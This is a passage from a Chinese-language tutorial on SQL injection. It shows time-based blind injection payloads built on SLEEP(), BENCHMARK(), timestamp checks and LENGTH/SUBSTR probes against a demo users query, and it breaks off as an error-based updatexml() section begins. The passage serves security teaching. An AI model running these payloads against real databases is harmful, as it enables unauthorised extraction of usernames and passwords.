     如果数据库中不存在用户名为`admin`的用户，那么该语句将会立即返回结束；否则，程序将会暂停5秒钟后再返回结果。

    同样我们使用我们的demo语句，`SELECT username,password FROM users WHERE id =`来演示：

    * 利用延时函数，如`SLEEP()`函数或者`BENCHMARK()`函数，来判断是否注入成功。

    ```sql
    SELECT username,password FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(username,1,1))=97,SLEEP(5),0)
    ```

    如果用户表中的第一个用户名字符为字母`a`，则程序会暂停5秒钟，否则返回0。

    * 利用时间戳

    可以利用数据库中的时间戳函数，如`UNIX_TIMESTAMP()`函数来构造延时语句，如：

    ```sql
    SELECT username,password FROM users WHERE id = 1 AND IF(UNIX_TIMESTAMP()>1620264296,SLEEP(5),0)
    ```

    上述SQL语句的意思是：如果当前时间戳大于`1620264296`，则程序会暂停5秒钟，否则返回0。

    * 利用函数返回值

    可以利用函数的返回值，如`LENGTH()`函数、`SUBSTR()`函数等，来判断是否注入成功。例如：

    ```sql
    SELECT username,password FROM users WHERE id = 1 AND IF(LENGTH(username)=4,SLEEP(5),0)
    ```

    上述SQL语句的意思是：如果用户名的长度为4，则程序会暂停5秒钟，否则返回0。
*   `BENCHMARK()`

    `BENCHMARK()`函数是一种用于重复执行指定语句的函数，在MySQL等数据库中支持使用。`BENCHMARK()`函数的语法通常如下：

    ```sql
    BENCHMARK(count,expr)
    ```

    其中，`count`表示要重复执行的次数，`expr`表示要重复执行的语句。

    看这个例子：

    ```sql
    SELECT * FROM users WHERE username='admin' AND IF(BENCHMARK(10,MD5('test')),1,0)
    ```

    如果数据库中不存在用户名为`admin`的用户，那么该语句将会立即返回；否则，程序将会重复执行`MD5('test')`函数10次后再返回结果

## 报错注入

顾名思义，通过报错信息获取数据的方法。

*   `updatexml()`

    这里我们先讲 `updatexml()` 报错注入。

    `updatexml()` 是MySQL中的一种XML处理函数，它用于更新XML格式的数 据，其标准的用法如下：

    ```sql
    UPDATEXML(xml_target, xpath_expr, new_value)
    ```
